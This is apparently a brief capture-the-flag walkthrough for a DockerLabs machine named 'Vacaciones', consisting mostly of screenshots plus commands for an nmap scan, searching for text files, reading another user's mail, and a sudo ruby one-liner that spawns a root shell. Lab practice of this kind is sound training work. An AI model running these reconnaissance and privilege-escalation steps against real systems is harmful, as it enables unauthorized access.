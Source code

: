
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_001.png)
```
nmap -p- -sS -sCV -T4 -n -Pn 172.17.0.2
```
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_002.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_003.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_004.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_005.png)
```
find / -name "*.txt" 2>/dev/null
```

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_006.png)
```
cat /var/mail/camilo/correo.txt
```
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_007.png)

![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_008.png)
```
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```
![Vacaciones](https://github.com/falart3/dockerlabs/blob/main/vc_009.png)
